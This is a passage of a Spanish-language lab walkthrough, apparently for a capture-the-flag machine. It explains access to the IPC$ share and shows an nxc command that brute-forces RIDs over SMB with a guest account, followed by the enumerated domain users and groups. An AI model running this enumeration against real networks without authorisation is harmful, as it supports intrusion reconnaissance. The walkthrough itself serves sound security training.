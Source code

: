 > **¿Por qué es importante `IPC$` con permisos READ?**  
> `IPC$` es una compartición especial que permite realizar conexiones **inter-proceso**, incluidas consultas a nivel de red y enumeración de información del sistema (como usuarios, grupos, políticas, etc.). Si tenemos acceso a `IPC$`, podemos usar herramientas como `enum4linux`, `crackmapexec`, `rpcclient`, o `nxc` para **enumerar información sensible del dominio** — incluso sin credenciales.


### Enumeración de usuarios con RID Brute Force

Después, aprovechamos el acceso a `IPC$` para hacer un ataque **RID Brute Force** con `nxc`:

```bash
(zikuta㉿zikuta)-[/usr/share/doc/python3-impacket/examples]
└─$ nxc  smb 10.201.122.124 -u 'guest' -p '' --rid-brute
SMB         10.201.122.124  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.201.122.124  445    DC01             [+] SOUPEDECODE.LOCAL\guest: 
SMB         10.201.122.124  445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.201.122.124  445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         10.201.122.124  445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
SMB         10.201.122.124  445    DC01             502: SOUPEDECODE\krbtgt (SidTypeUser)
SMB         10.201.122.124  445    DC01             512: SOUPEDECODE\Domain Admins (SidTypeGroup)
SMB         10.201.122.124  445    DC01             513: SOUPEDECODE\Domain Users (SidTypeGroup)
SMB         10.201.122.124  445    DC01             514: SOUPEDECODE\Domain Guests (SidTypeGroup)
SMB         10.201.122.124  445    DC01             515: SOUPEDECODE\Domain Computers (SidTypeGroup)
SMB         10.201.122.124  445    DC01             516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
SMB         10.201.122.124  445    DC01             517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
SMB         10.201.122.124  445    DC01             518: SOUPEDECODE\Schema Admins (SidTypeGroup)
SMB         10.201.122.124  445    DC01             519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
SMB         10.201.122.124  445    DC01             520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.201.122.124  445    DC01             521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.201.122.124  445    DC01             522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.201.122.124  445    DC01             525: SOUPEDECODE\Protected Users (SidTypeGroup)
SMB         10.201.122.124  445    DC01             526: SOUPEDECODE\Key Admins (SidTypeGroup)
SMB         10.201.122.124  445    DC01             527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
SMB         10.201.122.124  445    DC01             553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
SMB         10.201.122.124  445    DC01             571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.201.122.124  445    DC01             572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.201.122.124  445    DC01             1000: SOUPEDECODE\DC01$ (SidTypeUser)
SMB         10.201.122.124  445    DC01             1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
SMB         10.201.122.124  445    DC01             1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
SMB         10.201.122.124  445    DC01             1103: SOUPEDECODE\bmark0 (SidTypeUser)
SMB         10.201.122.124  445    DC01             1104: SOUPEDECODE\otara1 (SidTypeUser)
```

